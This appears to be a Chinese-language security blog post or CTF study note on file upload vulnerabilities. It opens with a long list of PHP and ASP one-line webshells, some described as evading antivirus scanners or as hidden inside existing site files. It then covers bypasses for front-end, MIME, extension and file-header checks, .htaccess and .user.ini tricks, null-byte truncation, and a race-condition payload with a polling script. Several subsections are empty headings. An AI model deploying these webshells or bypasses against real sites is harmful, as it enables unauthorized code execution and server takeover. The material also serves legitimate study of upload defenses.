







# 文件上传
文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。
<!--more-->
**一句话木马大全：**(搬运自https://blog.csdn.net/qq_43390703/article/details/104858705)
```
##PHP：
注意：限制内容长度时可以将GIF89a换成BM，木马写成<?=`tac /f*`;

<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

<%eval(request(“1″)):response.end%> 备份专用
```

## 1、前端验证
```
			<form enctype="multipart/form-data" method="post" onsubmit="return checkFile()">
                <p>请选择要上传的图片：</p><p>
                <input class="input_file" type="file" name="upload_file">
                <input class="button" type="submit" name="submit" value="上传"></p>
            </form>
```
表单中使用onsumbit="return checkFile()"调用js函数来检查上传文件的扩展名。当用户在**客户端**选择文件点击上传的时候，客户端还没有向服务器发送任何消息，就对本地文件进行检测来判断是否是可以上传的类型，这种方式称为**前台脚本检测扩展名**。

**绕过方法**：  
1、在浏览器中审查元素，删除检测函数  
2、通过改包软件将修改后缀名再上传  
3、浏览器安装插件禁用JS
<br>


## 2、后端验证
在文件被上传到**服务端**的时候，对文件内容、大小和类型进行检测等。

### 2.1 基于MIME(文件类型检测)
**常见类型**：


**绕过方法**：
使用工具（如burpsuite）强行篡改Header就可以，将Content-Type: application/php改为对应的类型。

### 2.2 基于后缀
通过检查文件的扩展名来确定文件**类型**，如果扩展名与允许上传的类型匹配，则系统允许上传；否则，系统可能会拒绝上传或发出警告。

（虽然一般不会考这么简单，但试试也行）可以尝试改成 `php3/4/5/6/7/phps/pht/phpm/phtml`
<br>


#### 2.2.1 黑名单验证
文件扩展名在黑名单中的为不合法
```
def is_blacklisted(filename):
    blacklisted_extensions = ['.exe', '.bat', '.cmd', '.sh']  # 黑名单扩展名列表

    # 检查文件名中是否包含黑名单扩展名
    for extension in blacklisted_extensions:
        if filename.lower().endswith(extension):
            return True  # 如果文件名以黑名单扩展名结尾，则返回True

    return False  # 如果文件名不包含黑名单扩展名，则返回False

# 测试代码
filename = "example.exe"
if is_blacklisted(filename):
    print("文件上传失败，文件类型在黑名单中。")
else:
    print("文件上传成功。")
```

**黑名单的绕过方法**在这里简单概括一下，后面会有较为详细的解释。  
**Windows系统：**  
1、尝试可逆未限制但可以执行的其他脚本后缀  
2、大小写绕过  
3、双写绕过  
4、末尾添加.绕过  
5、末尾添加空格绕过  
6、末尾添加::$DATA绕过  
7、截断上传  
8、竞争上传  
9、.htaccess文件上传  
10、上传图片马结合文件包含  

**Linux系统：**  
1、尝试可逆未限制但可以执行的其他脚本后缀  
2、双写绕过  
3、截断上传  
4、竞争上传  
5、.htaccess文件上传  
6、上传图片马结合文件包含


#### 2.2.2 白名单验证
文件扩展名不在白名单中的均为不合法
```
def is_whitelisted(filename):
    whitelisted_extensions = ['.jpg', '.jpeg', '.png', '.gif']  # 白名单扩展名列表

    # 检查文件名中是否包含白名单扩展名
    for extension in whitelisted_extensions:
        if filename.lower().endswith(extension):
            return True  # 如果文件名以白名单扩展名结尾，则返回True

    return False  # 如果文件名不包含白名单扩展名，则返回False

# 测试代码
filename = "example.jpg"
if is_whitelisted(filename):
    print("文件上传成功。")
else:
    print("文件上传失败，文件类型不在白名单中。")
```

**白名单的绕过方法**简单概括：  
1、结合解析漏洞  
2、截断上传  
3、文件名长度绕过  
4、.htaccess文件上传  
5、上传zip马结合文件包含


#### 2.2.3 配置文件上传(.htaccess / .user.ini)
`.htaccess：`  
.htaccess是Apache Web服务器上的一个配置文件，用于配置服务器的行为，如URL重写、访问控制、重定向等。  
其中.htaccess文件内容：SetHandler application/x-http-php的意思是设置当前目录所有文件都使用php解析，那么无论上传任何文件，只要符合php语言代码规范，就会被当做PHP执行。不符合规则则报错

但.htaccess文件可用的前提是管理员在http.conf文件中设置 AllowOverried All。


如果代码没有对htaccess进行过滤，那么可以直接上传.htaccess来设置使用php解析任意文件。
创建txt文件输入以下代码，然后改为1.jpg,上传时抓包将filename改回.htaccess即可
```
// "\.jpg"为要上传的shell的文件名
<FilesMatch "\.jpg"> 
  SetHandler application/x-httpd-php
</FilesMatch>
```
上传成功后再将图片马上传就可以连接蚁剑了

**局限:**
.htaccess的配置文件只能在Apache服务器中起作用  
下面介绍另一个配置文件
<hr>

`.user.ini`  
php.ini是php的全局配置文件，对整个web服务起作用，.user.ini和.htaccess都是目录的配置文件，.user.ini是用户自定义的php.ini，通常构造后门和隐藏后门。
```
GIF89a                  //绕过exif_imagetype()
auto_prepend_file=1.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。它包含在所有php文件前先执行
auto_append_file=1.jpg  //解析后进行包含，它包含在所有php文件执行后执行
```
假设某网站限制上传php文件，但是可以上传.user.ini，在上传一个图片马，然后可以通过访问含有.user.ini的文件夹下的php文件进行连接蚁剑。


#### 2.2.4 截断上传
首先明确php中00截断的条件：  
1、php版本小于5.3.29  
2、magic_quotes_gpc = Off  

无论**0x00**还是**%00**，最终被解析后都是chr（0），而chr（0）返回的就是一个空格，当一个字符串中存在空字符的时候，在被解析的时候会导致空字符后面的字符被丢弃。那么绕过是怎样发生的呢？  
如：在通过抓包软件将文件1.php.jpg中插入空字符变成：1.php.0x00.jpg中，解析后就会只剩下1.php，但是这样只能绕过前端验证，由于后端验证一般是通过文件上传路径来获取文件后缀的，直接截断是没有所以如果要绕过后端验证，则需要满足两个条件之一：  
1、**文件路径可控**，比如我可以修改路径拼接的path时，比如抓到的包中存在path: uploads/，就可以直接把路径构造成uploads/xxx.php%00  
2、路径拼接直接**使用 $file_name**这个文件名，而不是 $file_ext和其他什么东西来拼成一个文件名字，这时文件名中还是包含截断字符的。


#### 2.2.5 条件竞争
条件竞争漏洞通常涉及到两个或多个操作：一个是文件的上传操作，另一个是对上传文件进行检查或删除的操作。  
在某些情况下，这两个操作之间**存在时间差**，即上传操作完成后，检查或删除操作尚未执行。这段时间内，如果攻击者能够利用这个时间差来执行其他操作（如写入恶意脚本或代码），则可能导致严重的安全后果。

接下来用一个例子进行讲解：
```
<?php 
$uploaddir = 'uploads/';
if(isset($_POST['submit'])){
    if(file_exists($uploaddir)){
        if(move_uploaded_file($_FILES['upfile']['tmp_name'],$uploaddir.'/'.$_FILES['upfile']['name'])){
            $allow_ext = array('.jpg','.jpeg');
            if(in_array($file_ext,$allow_ext)){   //如果文件是jpg或jpeg，那么可以保留并提示上传成功
                echo "上传成功".$uploaddir.'/'.$_FILES['upfile']['name'];
            }
            else{
                sleep(5);  //为了实验更好的体现，程序暂停5秒之后才会删除文件
                unlink($uploaddir.'/'.$_FILES['upfile']['name']);
            }
        }
    }else{
        exit($uploaddir.'文件夹不存在，请手工创建');
    }
}
?>
<html>
    <head>
        <meta charset="utf-8">
        <title>文件上传漏洞演示--竞争上传</title>
    </head>
    <body>
        <h3>文件上传漏洞演示--竞争上传</h3>
        <form action="index.php" method="post" enctype="multipart/form-data" name="upload">
            请选择要上传的文件：<input type="file" name="upfile"/>
            <input type="submit" name="submit" value="上传"/>
        </form>
    </body>
</html>
```
从代码中可以看到，文件上传要是不符合要求，那么会在暂停5秒之后删除文件，在这5秒中，我们可以利用这个时间差来执行其他操作。  
payload：`<?php echo md5(1);fputs(fopen('shell.php','w'),"<?php @eval($_POST[cmd])?>");?>`

上传php文件并抓包设置重放（使用null payloads）


然后使用脚本不断地访问文件上传的地址，脚本如下：
```
import requests
url = "http://127.0.0.1/upload/uploads/pl6.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:  #判断shell.php是否写入成功
        print("OK")
        break

```

等到脚本返回200状态码则说明pl6.php执行成功并生成了shell.php，接下来使用蚁剑或者菜刀连接既可。



 
#### 2.2.6 二次渲染
文件上传二次渲染漏洞是指在文件上传功能中，服务器对上传的图片进行了**二次处理**（如格式、尺寸等），并且在处理完成后，将生成的新图片放置到网站对应的标签上显示。

绕过方式分为三种：**GIF绕过、PNG绕过、JPG绕过**  

1、GIF绕过二次渲染的方法，就是通过对比上传前和上传后的两个文件，如果说哪个位置，它的上传前和上传后的没有变，我们就把php一句话代码插入到这个位置。

#### 2.2.7 结合解析漏洞（待补）


#### 2.2.8 上传zip马结合文件包含
在白名单内只允许上传zip文件时，可以将php文件放入zip内，注意压缩方式为**存储**。


在上传zip文件后，使用文件包含伪协议进行运行  
zip:// （压缩流）  
phar:// （PHP归档)  
    http://127.0.0.1/include.php?file=zip://uploads/phpinfo.zip%23phpinfo  
    http://127.0.0.1/include.php?file=phar://./uploads/phpinfo.zip/phpinfo  
其中phpinfo.zip是所上传的压缩包，phpinfo是压缩包内的文件名，如果源代码中没有include **php**后缀的话，需要在伪协议代码后自行添加.php  
如果include 的是jpg后缀，那么将压缩包内的文件也对应改成jpg即可



#### 2.2.9 其他绕过方式
**1、上传图片马结合文件包含**  
很多网站通常会提供文件上传功能，比如：上传头像、文档等，这时就可以采取上传一句话图片木马的方式进行包含。  
假设已经上传一句话图片木马到服务器，路径为/upload/1.jpg,图片代码如下：
`<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['password']);?>")?>`  
然后访问URL：`http://www.xxxx.com/index.php?page=./upload/1.jpg`，包含这张图片，将会在index.php所在的目录下生成shell.php

**2、大写绕过**  


**3、空格绕过**


**4、后缀加.**


**5、::$DATA绕过**


**6、.空格.绕过**


**7、双写后缀绕过**


**8、字节标识绕过**


**9、数组后缀绕过**


<br>


### 2.3 基于文件内容（文件头检测）
利用每一个特定类型的文件都会有不一样的开头或者标志位进行检测。  
**常见格式**：

**绕过方法**：
给上传脚本加上相应的幻数头字节就可以，php引擎会将GIF89a的内容当作html文本，不解释直接跳过，后面的代码仍然能够得到执行，如下：
（一般不限制图片文件格式的时候使用GIF的头比较方便，因为全都是文本可打印字符。）  
```
GIF89a  
<?php phpinfo();?>
```
<br>


